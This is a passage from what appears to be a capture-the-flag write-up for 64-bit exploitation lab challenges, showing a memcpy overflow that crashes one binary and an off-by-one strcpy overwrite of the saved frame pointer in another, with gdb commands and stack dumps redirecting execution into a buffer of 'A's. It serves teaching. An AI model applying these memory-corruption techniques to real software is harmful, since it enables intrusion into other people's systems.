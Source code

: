 memcpy() will copy 0x104 bytes into the buffer, however, the saved return pointer is only 56 bytes away from the buffer. This will surely cause it to be overwritten, which will crash the program.

```
n00b@64bitprimer:/tmp/l3$ cat in.txt | ./chall3 a
Valid username.
Welcome, a!
What is your password?
Nope. n0 shellz4u.
Segmentation fault (core dumped)
```

Unfortunately this does not seem exploitable since strlen() is used to determine the length to memcpy(). The saved return pointer is overwritten at offset 56, so strlen() will return 56 bytes when it sees the null bytes in a 64-bit address, which will prevent the memcpy() branch from being evaluated. 

However, the above case with the segmentation fault should satisfy the DoS-only requirements for this challenge. 

## Level 6

chall6 requires an argument of up to 64-bytes. strcpy() is called in vuln() but it doesn't overwrite the saved return pointer. However, it does cause an off-by-one overwrite. If I pass in 64 "A"s, I can see that RBP is set to the following right before strcpy() is called: 

```
RBP: 0x7fffffffeaf0 --> 0x7fffffffeb10 --> 0x0
```

After strcpy(), RBP's last byte has been set to 0x00 which causes it to point to a different location.

```
RBP: 0x7fffffffeaf0 --> 0x7fffffffeb00 --> 0x7fffffffebf8 --> 0x7fffffffedf5 ("/tmp/l6/chall6")
```

This causes main() to return to a different address. I found that I could get it to return to my payload of 64 "A"s by adding additional arguments which shifts the stack a little. A bit of trial and error was required. For instance, in gdb, if I passed in the following:

```
gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA aaaa aaaa aaaa aaaa aaaa aaaa aaaa
```

Then main() would return to the payload of "A"s:

```
[-------------------------------------code-------------------------------------]
   0x400711 <main+112>: call   0x40065d <vuln>
   0x400716 <main+117>: mov    eax,0x0
   0x40071b <main+122>: leave
=> 0x40071c <main+123>: ret
   0x40071d:    nop    DWORD PTR [rax]
   0x400720 <__libc_csu_init>:  push   r15
   0x400722 <__libc_csu_init+2>:    mov    r15d,edi
   0x400725 <__libc_csu_init+5>:    push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffea08 --> 0x7fffffffede1 ('A' <repeats 64 times>)
0008| 0x7fffffffea10 --> 0x7fffffffea50 ('A' <repeats 64 times>)
0016| 0x7fffffffea18 --> 0x842
0024| 0x7fffffffea20 --> 0x0
0032| 0x7fffffffea28 --> 0x7ffff7ffe1c8 --> 0x0
0040| 0x7fffffffea30 --> 0x0
0048| 0x7fffffffea38 --> 0x40068e (<vuln+49>:   jmp    0x40069a <vuln+61>)
0056| 0x7fffffffea40 --> 0xa ('\n')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

```